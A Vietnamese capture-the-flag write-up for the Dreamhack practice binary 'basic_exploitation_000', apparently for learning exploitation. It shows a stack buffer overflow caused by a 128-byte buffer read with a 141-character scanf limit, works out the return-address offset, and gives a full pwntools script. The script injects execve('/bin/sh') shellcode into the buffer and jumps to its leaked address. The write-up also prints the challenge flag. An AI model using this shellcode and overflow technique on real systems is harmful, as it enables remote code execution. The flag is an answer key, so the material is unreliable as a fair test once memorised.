


**1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

Chương trình định nghĩa một mảng buf với kích thước 0x80 (hoặc 128 byte) nhưng cho phép nhập 141 byte -> Có lỗi bof.

Sau đó, chương trình in địa chỉ của mảng buf bằng lệnh printf() nhưng trong đó có %p sẽ in ra địa chỉ của biến buf.

**2. Ý tưởng**

Có được địa chỉ của biến buf nên sẽ đưa shellcode vào buf. Tiếp tục chèn cho tràn đến ret rồi điều hướng quay lại địa chỉ biến buf.

**3. Khai thác**

Lấy được địa chỉ biến buf sau lần chạy

```
r.recvuntil(b'(')
leak_buf = r.recv(10).decode()
log.info("leak stack: " + leak_buf)
leak_buf = int(leak_buf, 16)
```

```
   0x080485f5 <+28>:    lea    eax,[ebp-0x80]
   0x080485f8 <+31>:    push   eax
   0x080485f9 <+32>:    push   0x80486a5
   0x080485fe <+37>:    call   0x8048460 <__isoc99_scanf@plt>
```

Ta thấy biến buf cách ebp 0x80 byte. Vậy từ biến buf đến ebp là 0x80 + 0x4

Tiếp theo sẽ ghi shellcode vào biến buf và ghi byte rác cho đủ 0x80 + 0x4 byte ở trên. Sau đó ghi địa chỉ biến buf hay là shellcode của mình có được ở trên.

```
payload = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
payload = payload.ljust(0x80 + 0x4, b'a')
payload += p32(leak_buf)
```

Đặt breakpoint ở ret xem có trả về shellcode của mình không.



Vậy chương trình đã return về shellcode của mình

Ta có script như sau:

```
from pwn import *

exe = ELF('basic_exploitation_000')
#r = process(exe.path)
r = remote('host2.dreamhack.games', 22570)

r.recvuntil(b'(')
leak_buf = r.recv(10).decode()
log.info("leak stack: " + leak_buf)
leak_buf = int(leak_buf, 16)

payload = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
payload = payload.ljust(0x80 + 0x4, b'a')
payload += p32(leak_buf)
#input()
r.sendlineafter(b')\n', payload)
r.interactive()
```

**4. Lấy flag**



```Flag: DH{465dd453b2a25a26a847a93d3695676d}```
